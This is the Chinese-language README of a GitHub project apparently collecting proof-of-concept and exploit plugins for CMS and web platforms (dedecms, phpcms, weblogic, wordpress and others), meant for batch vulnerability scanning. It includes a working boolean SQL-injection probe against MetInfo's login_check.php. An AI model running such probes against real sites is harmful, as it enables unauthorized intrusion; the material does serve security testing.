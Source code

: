# cms_poc_exp
![](https://img.shields.io/badge/program-Python3-blue.svg)
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103


+ 项目说明
  - [x] 本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2
  - [x] [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3
  - `ShellFrameworkd`已更名为[PocBatch-M](https://github.com/1oid/PocBatch-M)并支持了Python3

+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```
调用 `Exploit().attack(url)`

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```

## 插件编写注意事项
+ 拒绝重复插件, 新增了一个`find.py`, 通过特征来搜索已存在的脚本是否含有指定特征
使用方法: 
  - 方法一: `python3 find.py cms名称 特征` 例如 `python3 find.py dedecms /install/index.php`
  - 方法二: `python3 find.py 特征` 例如 `python3 find.py /install/index.php` (如果不指定cms, 则会查找本地所有的插件)

## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)
- [LiodAir](https://github.com/LiodAir)提交分支
